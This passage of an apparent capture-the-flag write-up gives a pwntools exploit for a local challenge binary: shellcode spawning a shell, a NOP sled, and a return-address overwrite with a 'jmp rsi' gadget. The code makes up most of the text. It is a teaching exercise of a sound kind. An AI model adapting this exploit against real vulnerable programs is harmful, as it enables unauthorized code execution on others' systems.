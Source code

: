 Now, let's craft the exploit.


# The Exploit

Here's the Python script to exploit the binary:

Import pwntools and set the context for the shellcode:

```python
from pwn import *

# Set the context for the shellcode
context.arch = 'amd64'
context.os = 'linux'
```

Use pwntools to generate shellcode that spawns a shell. The context we set earlier ensures that the shellcode is compatible with the target architecture and OS.

```python
# Generate a shellcode that spawns a shell
shellcode = asm(shellcraft.sh())
```

```python
# Start the process
p = process('./chall')

# Address of the `jmp rsi` gadget
addr = 0x401041

# Craft the payload
payload = b""
payload += shellcode                             # Our shellcode
payload += b"\x90" * (0x100 - len(shellcode))    # NOP sled
payload += p64(addr)                             # Address of `jmp rsi` gadget
```

The `addr` is placed in the payload such that when contol reaches `ret` instruction the top of the stack will be the address of `jmp rsi` gadget.

```python

# Send the payload
p.sendline(payload)

# Interact with the shell
p.interactive()
```

## Explanation of `shellcraft.sh()`:
`shellcraft.sh()` is a pwntools function that generates architecture-specific shellcode to spawn a shell. It's a convenient way to get reliable shellcode without writing it manually.
